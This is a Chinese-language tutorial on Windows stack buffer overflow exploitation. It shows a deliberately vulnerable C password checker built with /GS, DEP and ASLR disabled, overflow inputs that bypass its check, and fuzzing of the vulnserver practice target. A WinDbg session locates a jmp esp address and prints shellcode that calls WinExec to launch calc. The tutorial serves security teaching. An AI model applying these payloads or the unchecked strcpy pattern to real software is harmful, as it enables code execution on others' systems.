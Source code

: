 ﻿windows栈及溢出利用
========================================

栈溢出
----------------------------------------

示例代码
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

::

	#include"stdafx.h"
	#include<Windows.h>

	#define PASSWORFD "1234567"

	int verify_password(char *password)
	{
		int authenticated;
		char buffer[44];
		authenticated = strcmp(PASSWORFD, password);
		strcpy(buffer, password);
		return authenticated;
	}

	int main(int argc, char* argv[])
	{
		
		if (argc > 1)
		{
			int valid_flag = 0;
			char password[1024];
			FILE *fp;
			LoadLibrary("user32.dll");
			if (!(fp = fopen(argv[1], "r")))
			{
				printf("password.txt open failed");
				exit(0);
			}
			fscanf(fp, "%s", password);
			valid_flag = verify_password(password);
			if (valid_flag)
				printf("incorrect password!\n");
			else
			{
				printf("Congratulation!You have passed the verification!");
			}
			fclose(fp);
		}
		else
			printf("main argu error!");
		return 0;
	}

编译环境：
 | IDE：Visual Studio 2015，release
 | 编译选项：
 | 字符集：使用多字节字符集
 | c/c++->优化->优化：已禁用
 | c/c++->优化->启用内部函数：否
 | c/c++->优化->全程序优化：否
 | c/c++->预处理器->预处理定义：_CRT_SECURE_NO_WARNINGS（或禁用SDL）
 | c/c++->代码生成->安全检查：禁用安全检查（/GS-）
 | 链接器->高级->数据执行保护(DEP)-否
 | 链接器->高级->随机基址-否
 | 附件：`stackvuln.zip <..//_static//stackvuln.zip>`_

运行堆栈
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
 | **运行环境** ：Microsoft Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601 64位
 | **poc** :

	::
		
		0321432143214321432143214321432143214321432143214321432143214321
		4321432143214321432143214321432143214321432143214321432143214321
		432143214321

 **溢出发生前** ：
	|stack4|
 **溢出发生后** ：
	|stack5|
 **EIP崩溃** ：
	|stack6|


POC
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 绕过验证
	**poc** ：
	::

		03214321432143214321432143214321432143214321

	**溢出发生前** ：
	|stack7|
	**溢出发生后** ：
	|stack8|
	**验证通过** ：
	|stack9|

- 代码植入
	**原理图** ：
	|stack10|
	**poc** ：
	|stack11|
	|stack15|

	**溢出发生前** ：
	|stack12|
	**溢出发生后** ：
	|stack13|
	**运行** ：
	|stack14|

实战示例
----------------------------------------

示例程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `vulnserver <https://github.com/stephenbradshaw/vulnserver>`_

运行环境
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Microsoft Windows 7 旗舰版 6.1.7601 Service Pack 1 Build 7601（32位）

FUZZ测试
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- `boofuzz-vulnserver1 <..//_static//boofuzz-vulnserver1.py>`_
	通过以上脚本可使服务器程序崩溃，即POC。
- `boofuzz-vulnserver2 <..//_static//boofuzz-vulnserver2.py>`_
	通过以上脚本测试崩溃数据位置以及EXP代码。

EXP过程
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- windbg设置为JIT调试器
- 调试过程

	::

		Microsoft (R) Windows Debugger Version 6.12.0002.633 X86
		Copyright (c) Microsoft Corporation. All rights reserved.

		*** wait with pending attach
		Symbol search path is: srv*c:\symbols*http://msdl.microsoft.com/download/symbols
		Executable search path is: 
		ModLoad: 00400000 00407000   C:\Users\Administrator\Desktop\vulnserver.exe
		ModLoad: 77210000 7734c000   C:\Windows\SYSTEM32\ntdll.dll
		ModLoad: 756d0000 757a4000   C:\Windows\system32\kernel32.dll
		ModLoad: 75560000 755aa000   C:\Windows\system32\KERNELBASE.dll
		ModLoad: 62500000 62508000   C:\Users\Administrator\Desktop\essfunc.dll
		ModLoad: 76760000 7680c000   C:\Windows\system32\msvcrt.dll
		ModLoad: 76e60000 76e95000   C:\Windows\system32\WS2_32.DLL
		ModLoad: 76c10000 76cb1000   C:\Windows\system32\RPCRT4.dll
		ModLoad: 77430000 77436000   C:\Windows\system32\NSI.dll
		ModLoad: 74da0000 74ddc000   C:\Windows\system32\mswsock.dll
		ModLoad: 76d60000 76e29000   C:\Windows\system32\user32.dll
		ModLoad: 75680000 756ce000   C:\Windows\system32\GDI32.dll
		ModLoad: 77350000 7735a000   C:\Windows\system32\LPK.dll
		ModLoad: 76cc0000 76d5d000   C:\Windows\system32\USP10.dll
		ModLoad: 76e30000 76e4f000   C:\Windows\system32\IMM32.DLL
		ModLoad: 77360000 7742c000   C:\Windows\system32\MSCTF.dll
		ModLoad: 74610000 74615000   C:\Windows\System32\wshtcpip.dll
		ModLoad: 75260000 752ac000   C:\Windows\system32\apphelp.dll
		(6d4c.76a8): Access violation - code c0000005 (!!! second chance !!!)
		eax=0174f200 ebx=0000005c ecx=006751ec edx=00000000 esi=00000000 edi=00000000
		eip=017ff9e0 esp=0174f9e0 ebp=eeffee42 iopl=0         nv up ei pl zr na pe nc
		cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
		017ff9e0 ??              ???
		0:001> kb
		ChildEBP RetAddr  Args to Child              
		WARNING: Frame IP not in any known module. Following frames may be wrong.
		0174f9dc b850c033 64453278 b8506c6c 32336c65 0x17ff9e0
		0174fa30 772669a7 002c2518 00000000 77265dd3 0xb850c033
		0174fb14 77265ae0 00000208 00000210 002c2512 ntdll!RtlpAllocateHeap+0xc78
		0174fb88 00000000 00000000 00000000 00000000 ntdll!RtlAllocateHeap+0x23a
		0:001> dd esp- 0x20
		0174f9c0  41414141 41414141 42424241 42424242
		0174f9d0  42424242 42424242 eeffee42 017ff9e0
		0174f9e0  b850c033 64453278 b8506c6c 32336c65
		0174f9f0  656bb850 8b506e72 7bb850c4 ff7c801d
		0174fa00  50c033d0 2e0909b8 50657865 6c6163b8
		0174fa10  c48b5063 b850056a 7c8623ad c033d0ff
		0174fa20  cafab850 d0ff7c81 0174fb00 006749c0
		0174fa30  00000042 772669a7 002c2518 00000000
		多次执行程序发现，017ff9dc的堆栈位置不固定，导致无法017ff9dc(017ff9e0)数据无法确定，
		即存在ASLR，我们使用EMET来禁用ASLR。
		不知道为什么，禁用了ASLR之后，堆栈的地址还是不固定，那么我们需要将0174f9dC（017ff9e0）填充为僵尸地址。
		并且，堆栈恢复之后，esp指向了017ff9e0地址,即shellcode地址。
		那么我们可以在kernel32或ntdll中查找jmp esp (ffe4) 或者 call esp (ffd4) 的指令的地址，填充到017ff9dc。
		0:001> lm
		start    end        module name
		00400000 00407000   vulnserver   (deferred)             
		0dce0000 0dd2a000   KERNELBASE   (deferred)             
		3fd20000 3fd25000   wshtcpip   (deferred)             
		40160000 40166000   NSI        (deferred)             
		402c0000 402ca000   LPK        (deferred)             
		41840000 4185f000   IMM32      (deferred)             
		41ac0000 41af5000   WS2_32     (deferred)             
		62500000 62508000   essfunc    (deferred)             
		6c880000 6c8bc000   mswsock    (deferred)             
		6f000000 6f04c000   apphelp    (deferred)             
		6f8e0000 6f97d000   USP10      (deferred)             
		6ff50000 6fffc000   msvcrt     (deferred)             
		70990000 70a5c000   MSCTF      (deferred)             
		77b60000 77bae000   GDI32      (deferred)             
		77bb0000 77c51000   RPCRT4     (deferred)             
		77d10000 77dd9000   user32     (deferred)             
		77de0000 77eb4000   kernel32   (deferred)             
		77ec0000 77ffc000   ntdll      (pdb symbols)          c:\symbols\ntdll.pdb\120028FA453F4CD5A6A404EC37396A582\ntdll.pdb
		
		77D34E5B    FFE4            jmp     esp
		
		0:001> x kernel32!LoadLibraryA
		77e3395c kernel32!LoadLibraryA = <no type information>
		0:001> x kernel32!0:001> x kernel32!WinExec
		77e6e5fd kernel32!WinExec = <no type information>
		
		shellcode如下：
		0172fa2b 90              nop
		0172fa2c 90              nop
		0172fa2d 90              nop
		0172fa2e 90              nop
		0172fa2f 90              nop
		0172fa30 33c0            xor     eax,eax
		0172fa32 50              push    eax
		0172fa33 b82e646c6c      mov     eax,6C6C642Eh
		0172fa38 50              push    eax
		0172fa39 b8656c3332      mov     eax,32336C65h
		0172fa3e 50              push    eax
		0172fa3f b86b65726e      mov     eax,6E72656Bh
		0172fa44 50              push    eax
		0172fa45 8bc4            mov     eax,esp
		0172fa47 50              push    eax
		0172fa48 b85c39e377      mov     eax,offset kernel32!LoadLibraryA (77e3395c)
		0172fa4d ffd0            call    eax
		0172fa4f 33c0            xor     eax,eax
		0172fa51 50              push    eax
		0172fa52 b82e657865      mov     eax,6578652Eh
		0172fa57 50              push    eax
		0172fa58 b863616c63      mov     eax,636C6163h
		0172fa5d 50              push    eax
		0172fa5e 8bc4            mov     eax,esp
		0172fa60 6a05            push    5
		0172fa62 50              push    eax
		0172fa63 b8fde5e677      mov     eax,offset kernel32!WinExec (77e6e5fd)
		0172fa68 ffd0            call    eax
		0172fa6a 33c0            xor     eax,eax
		0172fa6c 50              push    eax
		0172fa6d b8faca817c      mov     eax,7C81CAFAh
		0172fa72 ffd0            call    eax
		0172fa74 90              nop
		0172fa75 90              nop
		0172fa76 90              nop
		0172fa77 90              nop
		0172fa78 90              nop


	|stack16|


.. |stack4| image:: ../images/stack4.png
.. |stack5| image:: ../images/stack5.png
.. |stack6| image:: ../images/stack6.png
.. |stack7| image:: ../images/stack7.png
.. |stack8| image:: ../images/stack8.png
.. |stack9| image:: ../images/stack9.png
.. |stack10| image:: ../images/stack10.jpg
.. |stack11| image:: ../images/stack11.png
.. |stack12| image:: ../images/stack12.png
.. |stack13| image:: ../images/stack13.png
.. |stack14| image:: ../images/stack14.png
.. |stack15| image:: ../images/stack15.png
.. |stack16| image:: ../images/stack16.png